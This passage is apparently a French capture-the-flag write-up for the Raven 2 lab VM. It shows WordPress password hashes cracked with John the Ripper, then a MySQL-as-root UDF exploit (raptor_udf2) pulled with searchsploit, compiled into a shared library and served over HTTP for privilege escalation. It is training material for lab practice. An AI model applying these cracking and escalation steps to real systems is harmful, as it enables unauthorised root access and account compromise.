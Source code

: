 ```console
root@blinils:~# cat pass-wordpress-raven.txt
michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0
steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/

root@blinils:~# john pass-wordpress-raven.txt --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
LOLLOL1           (steven)
1g 0:00:44:44 DONE (2018-11-22 22:22) 0.000381g/s 5473p/s 5490c/s 5490C/s            ..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Contrairement à la VM Raven: 1, Steven n'utilise pas le même mot de passe pour ses accès SSH et WordPress.

Il va falloir trouver un autre moyen de passer root, et la solution ne doit certainement pas résider dans la robustesse des mots de passe. Après une longue recherche et plusieurs échecs, une piste sérieuse se dessine : MySQL est exécuté avec les privilèges de root ! L'exploit _[MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library](https://www.exploit-db.com/exploits/1518/)_ fera parfaitement l'affaire et en plus, il n'y a qu'à suivre les instructions en commentaires.

```console
www-data@Raven:/var/mail$ ps -ef | grep mysql
ps -ef | grep mysql
root       539     1  0 Nov25 ?        00:00:00 /bin/sh /usr/bin/mysqld_safe
root       908   539  0 Nov25 ?        00:00:12 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin
--user=root --log-error=/var/log/mysql/error.log --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock --port=3306
www-data  2121  1616  0 02:36 pts/1    00:00:00 grep mysql
```

Voici les commandes à réaliser sur le poste attaquant...

```console
root@blinils:~# searchsploit mysql | grep local | grep UDF
MySQL 4.0.17 (Linux) - User-Defined Function (UDF) Dynamic Library (1)              | exploits/linux/local/1181.c
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)             | exploits/linux/local/1518.c
MySQL 4/5/6 - UDF for Command Execution                                             | exploits/linux/local/7856.txt

root@blinils:~# searchsploit -m 1518
  Exploit: MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
      URL: https://www.exploit-db.com/exploits/1518/
     Path: /usr/share/exploitdb/exploits/linux/local/1518.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /root/1518.c

root@blinils:~# mv /root/1518.c raptor_udf2.c

root@blinils:~# gcc -g -c raptor_udf2.c

root@blinils:~# gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

root@blinils:~# ls raptor*
raptor_udf2.c  raptor_udf2.o  raptor_udf2.so

root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```
